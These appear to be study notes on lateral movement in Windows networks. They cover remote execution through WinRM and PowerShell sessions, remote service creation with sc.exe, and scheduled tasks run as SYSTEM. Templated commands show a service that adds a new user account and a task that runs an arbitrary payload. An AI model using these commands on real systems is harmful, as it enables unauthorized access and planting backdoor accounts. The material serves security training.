 Windows Remote Management is a web based protocols to send Powershell commands to hosts remotely, most server installations will have WinRM enabled by default.

`winrs.exe -u:<username> -p:<password> -r:<target computer> cmd` Connect to a remote Powershell session from the command line.

We can reach the same from Powershell:

1. Create a PSCredentail object
	1. `$username = '<username>';`
	2. `$password = '<password>';`
	3. `$securePassword = ConvertTo-SecureString $password -AsPlainText -Force`
	4. `$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`
2. Create an interactive session
	1. `Enter-PSSession -Computername <target computer> -Credential $credential` or run script blocks remotely with `Invoke-Command -Computername <target computer> -Credential $credential -ScriptBlock {whoami}`

##### Remotely Creating Services Using sc

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

If we configure a service to run an application, it'll execute it and fail afterwards.

sc.exe is used to create services on a remote host, when using sc it'll try to connect to the Service Control Manager (SVCCTL).

DCE / RPC will be used for a connection attempt, It'll first connect to the Endpoint Mapper (EPM), which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program, the EPM will than respond with which IP and port to connect to the SVCCTL, usually a dynamic port between 49152-65535.

![[c4f288e73da9c0f4d480ad817b365fe5.png]]

If the connection fails sc will try to reach SVCCTL trough SMB named pipes.

![[0c425c37d692c771c944e38dca8c5879.png]]

`sc.exe \\<target> create <service name> binPath= "net user <user> <password> /add" start= auto` - Create a service to create a new user, you won't be able to see any output since to OS is in charge of running services.

`sc.exe \\<target> start <service name>` - Start the service.
`sc.exe \\<target> stop <service name>` - Stop the service.
`sc.exe \\<target> delete <service name>` - Delete the service.

##### Creating Scheduled Tasks Remotely

`schtasks /s <target> /RU "SYSTEM" /create /tn "<task name>" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00` - Create a scheduled task that will run once.

`schtasks /s <target> /run /TN "<task name>"` - Run the scheduled task.
